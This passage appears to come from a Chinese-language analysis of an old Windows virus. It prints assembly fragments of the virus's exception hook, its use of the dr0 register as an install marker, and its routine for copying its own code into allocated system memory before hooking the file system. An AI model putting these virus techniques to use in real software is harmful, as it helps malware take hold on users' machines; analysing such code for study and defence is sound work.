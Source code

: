     int HookExceptionNumber

则直接触发异常，进入MyExceptionHook。下面我们进入MyExceptionHook进行分析。

```
MyExceptionHook:
@2 = MyExceptionHook

jz InstallMyFileSystemApiHook

; *************************************
; * Do My Virus Exist in System !? *
; *************************************

mov ecx, dr0
jecxz AllocateSystemMemoryPage
```

这里有一个小技巧。病毒使用dr0寄存器存放病毒的安装状态，dr0寄存器主要用于调试，在应用程序正常运行过程中一般不会修改。因此，将其作为一个全局的临时寄存器。

第一次进入MyExceptionHook时，因为jz的条件并不成立，并不会跳到InstallMyFileSystemApiHook, 而是跳到AllocateSystemMemoryPage进行内存的分配。

此后我们还会第二次回到MyExceptionHook，这时才会调用InstallMyFileSystemApiHook,安装系统钩子。

```
; *************************************
; * Merge All Virus Code Section *
; *************************************

push esi
mov esi, eax

LoopOfMergeAllVirusCodeSection:

mov ecx, [eax-04h]

rep movsb

sub eax, 08h

mov esi, [eax]

or esi, esi
jz QuitLoopOfMergeAllVirusCodeSection ; ZF = 1

jmp LoopOfMergeAllVirusCodeSection

QuitLoopOfMergeAllVirusCodeSection:

pop esi
```

在调用AllocateSystemMemoryPage分配了系统内存后，接下来这段代码会将病毒代码复制到此前分配的系统内存中。


[^1st]: <https://www.geekpark.net/news/212936>
[^2nd]: <https://www.anquanke.com/post/id/164959>